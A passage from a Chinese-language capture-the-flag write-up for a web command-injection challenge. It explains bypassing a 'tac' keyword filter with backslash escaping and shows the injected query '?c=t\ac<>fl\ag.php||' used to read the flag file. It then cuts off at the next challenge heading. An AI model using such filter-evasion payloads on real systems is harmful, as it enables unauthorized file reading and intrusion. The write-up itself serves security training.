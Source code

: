 过滤了tac，我们用t\ac来绕过

先查看flag位置

![image-20240120132902777](image/image-20240120132902777.png)

构建命令

```
?c=t\ac<>fl\ag.php||
```

得到flag

![image-20240120132946290](image/image-20240120132946290.png)

------

#### web52

